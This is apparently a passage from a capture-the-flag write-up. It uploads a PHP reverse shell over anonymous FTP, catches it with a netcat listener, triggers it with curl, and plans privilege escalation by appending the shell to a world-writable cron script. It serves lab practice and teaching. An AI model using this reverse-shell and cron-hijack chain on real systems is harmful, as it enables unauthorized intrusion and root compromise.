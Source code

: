 PHP Reverse Shell Code:

{% embed url="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" %}

Access Anonymous FTP:

```
ftp 10.10.0.181 -a
put php-reverse-shell.php
exit
```

Begin netcat listener:

```
nc -lnvp 1337
```

Trigger the reverse shell:

```
curl http://10.10.0.103/temp/php-reverse-shell.php
```

* We are now <mark style="color:yellow;">www-data</mark>

## Privilege Escalation

### Local enumeration

* We landed in the root directory
* Time to fix our shell to a more stable /bin/bash

{% content-ref url="../../../fully-interactive-shell-upgrade.md" %}
[fully-interactive-shell-upgrade.md](../../../fully-interactive-shell-upgrade.md)
{% endcontent-ref %}

* Transferred Linpeas with no luck
* Tried switching user and using VeryVeryVerySecure1! but no luck
* Checked LES and nothing

### Possible Hunches

* Apache
* Cronjob
* /etc/log-time.sh is writeable
* /var/opt/gitlab/postgresql/.s.PGSQL.5432
* 21:41 146958 root /usr/sbin/CRON -f
* We see that this cronjob is writeable by anyone!
  * \-rwxrwx<mark style="color:yellow;">rwx</mark> 1 brandon brandon 43 Jul 25 2021 /etc/log-time.sh

### PrivEsc vector

<mark style="color:yellow;">Misconfigured/Vulnerable Cronjob</mark>

* Append our previous PHP reverse shell to the log-time.sh script and wait for it to run as a cronjob!
* Remember, our php-reverse-shell.php is in our /var/www/html/temp/php-reverse-shell.php directory
